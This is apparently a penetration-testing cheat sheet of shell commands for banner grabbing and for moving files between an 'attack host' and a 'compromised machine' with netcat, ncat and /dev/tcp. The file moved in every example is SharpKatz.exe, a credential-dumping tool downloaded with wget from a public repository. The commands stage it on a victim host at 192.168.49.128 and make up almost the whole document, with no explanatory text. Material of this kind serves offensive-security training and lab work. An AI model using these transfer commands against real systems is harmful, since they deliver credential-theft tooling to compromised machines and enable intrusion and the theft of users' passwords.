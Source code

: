 #### Banner Grabbing
```shell
nc -nv <IP> 21
```
## File Transfer with Netcat and Ncat
#### NetCat - Compromised Machine
```shell
nc -l -p 8000 > SharpKatz.exe
```
#### Ncat - Compromised Machine
```shell
ncat -l -p 8000 --recv-only > SharpKatz.exe
```
#### Netcat - Attack Host - Sending File to Compromised machine
```shell
wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
```
```shell
nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```
#### Ncat - Attack Host - Sending File to Compromised machine
```shell
wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
```
```shell
ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```
#### Attack Host - Sending File as Input to Netcat
```shell
sudo nc -l -p 443 -q 0 < SharpKatz.exe
```
#### Compromised Machine Connect to Netcat to Receive the File
```shell
nc 192.168.49.128 443 > SharpKatz.exe
```
#### Attack Host - Sending File as Input to Ncat
```shell
sudo ncat -l -p 443 --send-only < SharpKatz.exe
```
#### Compromised Machine Connect to Ncat to Receive the File
```shell
ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```
#### NetCat - Sending File as Input to Netcat
```shell
sudo nc -l -p 443 -q 0 < SharpKatz.exe
```
#### Ncat - Sending File as Input to Netcat
```shell
sudo ncat -l -p 443 --send-only < SharpKatz.exe
```
#### Compromised Machine Connecting to Netcat Using /dev/tcp to Receive the File
```shell
cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```

